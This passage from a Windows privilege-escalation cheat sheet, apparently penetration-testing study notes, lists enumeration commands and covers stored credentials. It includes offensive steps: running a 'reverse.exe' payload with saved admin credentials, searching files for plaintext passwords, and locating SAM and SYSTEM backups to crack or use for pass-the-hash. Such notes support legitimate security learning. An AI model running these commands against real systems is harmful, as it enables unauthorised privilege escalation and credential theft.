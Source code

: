     If one of these keys is **enabled** (set to 1), any user can run Windows Installer packages with elevated privileges.
    
- List running processes/services:
    
    ```powershell
    Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
    ```
    
- List installed applications: `wmic service get name,displayname,pathname,startmode`
    - `<same command>|findstr /i "auto" |findstr /i /v "c:\windows"` (list of non-standard services)
    - Installed by the Windows Installer: `wmic product get name, version, vendor`
    - System-wide updates: `wmic qfe get Caption, Description, HotFixID, InstalledOn`
    
    ⚠️WMI command-line (WMIC) utility is deprecated as of Windows 10, version 21H1⚠️
    
- Look for saved credentials: `cmdkey /list`
    - `runas /savecred /user:admin C:\PrivEsc\reverse.exe`
- Check scheduled tasks:
    - `schtasks /query /fo LIST /v`
    - PowerShell equivalent:
        
        ```powershell
        Get-ScheduledTask| where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
        ```
        
- Mounted disks: `mountvol`
- Drivers and Kernel Modules:
    - `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path`
    - PowerShell equivalent:
        
        ```powershell
        Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, lsmodDriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
        ```
        
- See networking routing tables: `route print`
- See open ports (active network connections): `netstat -ano`
- Current firewall profiles: `netsh advfirewall show currentprofile`
    - If active, look at firewall rules: `netsh advfirewall firewall show rule name=all`

### 🗃️ Sensitive Files

Looking for plaintext passwords:

- `dir/s *pass* == *.config`
- `findstr /si password *.xml *.ini *.txt`

SAM and SYSTEM files in:

- `C:\Windows\Repair`
- `C:\Windows\System32\config\RegBack`

> Copy them to Kali and crack them using `hashcat` or just try [Pass-the-hash](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#%EF%B8%8F-post-exploitation-pivoting-and-lateral-movement)
 